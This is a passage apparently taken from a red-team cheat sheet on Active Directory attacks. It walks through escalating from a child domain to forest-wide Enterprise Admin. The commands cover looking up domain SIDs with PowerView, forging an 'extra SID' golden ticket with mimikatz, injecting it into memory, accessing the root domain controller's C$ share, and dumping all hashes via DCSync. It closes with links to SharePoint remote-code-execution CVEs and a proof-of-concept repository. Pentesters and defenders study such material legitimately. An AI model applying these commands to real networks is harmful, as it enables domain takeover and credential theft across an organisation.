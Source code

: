 Exploitation example:

Get the SID of the Current Domain using PowerView

```
Get-DomainSID -Domain current.root.domain.local
```

Get the SID of the Root Domain using PowerView

```
Get-DomainSID -Domain root.domain.local
```

Create the Enteprise Admins SID

```
Format: RootDomainSID-519
```

Forge "Extra" Golden Ticket using mimikatz

```
kerberos::golden /user:Administrator /domain:current.root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi
```

Inject the ticket into memory

```
kerberos::ptt \path\to\ticket\golden.kirbi
```

List the DC of the Root Domain

```
dir \\dc.root.domain.local\C$
```

Alternatively, DCsync and dump the hashes using mimikatz&#x20;

```
lsadump::dcsync /domain:root.domain.local /all
```

Detailed Articles:

* [Kerberos Golden Tickets are Now More Golden](https://adsecurity.org/?p=1640)
* [A Guide to Attacking Domain Trusts](http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/)

### **Exploiting SharePoint**

*   [CVE-2019-0604](https://medium.com/@gorkemkaradeniz/sharepoint-cve-2019-0604-rce-exploitation-ab3056623b7d) RCE Exploitation \\

    [PoC](https://github.com/k8gege/CVE-2019-0604)
* [CVE-2019-1257](https://www.zerodayinitiative.com/blog/2019/9/18/cve-2019-1257-code-execution-on-microsoft-sharepoint-through-bdc-deserialization)  Code execution through BDC deserialization
*   [CVE-2020-0932](https://www.zerodayinitiative.com/blog/2020/4/28/cve-2020-0932-remote-code-execution-on-microsoft-sharepoint-using-typeconverters) RCE using typeconverters \\
